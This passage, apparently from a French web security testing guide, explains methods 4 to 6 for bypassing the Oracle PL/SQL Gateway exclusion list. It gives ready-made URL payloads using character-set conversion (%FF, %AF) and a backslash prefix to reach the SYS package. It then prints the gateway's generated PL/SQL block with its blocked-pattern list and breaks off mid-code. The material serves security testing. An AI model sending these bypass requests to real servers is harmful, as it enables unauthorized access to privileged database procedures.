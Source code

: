`http://www.example.com/pls/dad/"SYS".PACKAGE.PROC`

**Contournement de la liste d'exclusion PL/SQL - Méthode 4**
Selon le jeu de caractères utilisé sur le serveur web et sur le serveur
de base de données, certains caractères peuvent être converti. Ainsi, le
caractère "ÿ" (0xFF) peut être converti en "Y" dans le serveur de base
de données. Un autre caractère, Macron (0xAF) est aussi souvent converti
en "Y" majuscule. Cela peut permettre à un attaquant de contourner la
liste d'exclusion :

`http://www.example.com/pls/dad/S%FFS.PACKAGE.PROC`
`http://www.example.com/pls/dad/S%AFS.PACKAGE.PROC`

**Contournement de la liste d'exclusion PL/SQL - Méthode 5**
Certaines version de la PL/SQL Gateway permettent le contournement de la
liste d'exclusion avec un backslash (0x5C) :

`http://www.example.com/pls/dad/%5CSYS.PACKAGE.PROC`

**Contournement de la liste d'exclusion PL/SQL - Méthode 6**
Cette méthode est la plus complexe et la plus récemment corrigée.
Considérons la requête suivante :

`http://www.example.com/pls/dad/foo.bar?xyz=123`

le serveur d'application exécuterait ce qui suit sur le serveur de base
de données :

`1 declare`
`2  rc__ number;`
`3  start_time__ binary_integer;`
`4  simple_list__ owa_util.vc_arr;`
`5  complex_list__ owa_util.vc_arr;`
`6 begin`
`7  start_time__ := dbms_utility.get_time;`
`8  owa.init_cgi_env(:n__,:nm__,:v__);`
`9  htp.HTBUF_LEN := 255;`
`10  null;`
`11  null;`
`12  simple_list__(1) := 'sys.%';`
`13  simple_list__(2) := 'dbms_%';`
`14  simple_list__(3) := 'utl_%';`
`15  simple_list__(4) := 'owa_%';`
`16  simple_list__(5) := 'owa.%';`
`17  simple_list__(6) := 'htp.%';`
`18  simple_list__(7) := 'htf.%';`
`19  if ((owa_match.match_pattern('foo.bar', simple_list__, complex_list__, true))) then`
`20   rc__ := 2;`
`21  else`
`22   null;`
`23   orasso.wpg_session.init();`
`24   foo.bar(XYZ=>:XYZ);`
`25   if (wpg_docload.is_file_download) then`
`26    rc__ := 1;`
`27    wpg_docload.get_download_file(:doc_info);`
`28    orasso.wpg_session.deinit();`
`29    null;`
`30    null;`
`31    commit;`
`32   else`
`33    rc__ := 0;`
`34    orasso.wpg_session.deinit();`
`35    null;`
`36    null;`
`37    commit;`
`38    owa.get_page(:data__,:ndata__);`
`39   end if;`